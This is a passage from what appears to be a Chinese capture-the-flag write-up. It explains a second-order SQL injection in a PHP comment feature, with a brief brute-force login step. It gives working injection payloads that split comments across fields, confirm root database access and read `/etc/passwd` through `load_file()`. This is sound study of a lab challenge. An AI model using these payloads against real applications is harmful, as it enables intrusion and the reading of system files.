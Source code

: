 





但是提示我们需要登录，直接爆破一下，密码加上666

然后在`comment`中为`content`赋值：

```
content=*/#&bo_id=14
```

这是什么意思呢？

```sql
$category = mysql_fetch_array($result)['category'];
$content = addslashes($_POST['content']);
$sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
```

将category取出，然后再为content赋值，代码变成了这样：

```sql
$sql = "insert into comment
            set category = '',content=user(),/*',
                content = '*/#',
                bo_id = '$bo_id'";
```

这里我们恰好注释掉了 `content`，将其设置为自定义的。

/**/可以多行注释。#只能单行注释，注释掉了后面的 `',`

![image-20230514133313615](https://s2.loli.net/2023/05/14/ul1EFGvyRDQkrL2.png)



查询出来了root权限。

然后继续查库名、表名。。发现查询不到flag



由于此处是 root权限，可以使用 `load_file()`函数读取文件，我们读取一下 `/etc/passwd`

```
category=',content=load_file("/etc/passwd"),/*
```



> `/etc/passwd` 是一个文件，它记录了系统上的用户账号信息。每行记录表示一个用户账号，每行记录包含了如下字段：
>
> ```
> username:password:UID:GID:GECOS:home_directory:login_shell
> ```
>
> - `username`：用户登录名
> - `password`：加密后的用户密码，现在一般为 "x"，表示密码存储在 `/etc/shadow` 文件中
> - `UID`：用户ID，是一个整数值，用来唯一标识该用户
> - `GID`：用户所属的组ID
> - `GECOS`：用户的全名或注释信息
> - `home_directory`：用户的主目录
> - `login_shell`：用户登录后使用的默认shell程序
>
> 例如，下面是一个 `/etc/passwd` 文件的示例：
>
> ```
> root:x:0:0:root:/root:/bin/bash
> daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
> bin:x:2:2:bin:/bin:/usr/sbin/nologin